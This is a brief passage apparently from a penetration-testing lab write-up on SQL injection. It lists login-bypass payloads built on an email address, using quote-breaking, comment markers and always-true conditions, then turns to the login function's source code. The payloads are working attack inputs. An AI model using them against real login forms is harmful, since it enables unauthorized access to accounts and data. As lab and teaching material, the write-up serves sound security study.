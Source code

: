 <img src="https://github.com/pentest-khoa-02/Group1/blob/solution/solution/SQL%20Injection/images/26.png" width="666px">
</p>

```sql
minhdz@gmail.com'--
minhdz@gmail.com"--
minhdz@gmail.com'#
minhdz@gmail.com"#
minhdz@gmail.com' or '1'='1
minhdz@gmail.com' or "1"="1
minhdz@gmail.com" or '1'='1
minhdz@gmail.com" or "1"="1
minhdz@gmail.com'"--
minhdz@gmail.com"'--
...
```

*I will go to the source code to see the login function*

<p align="center">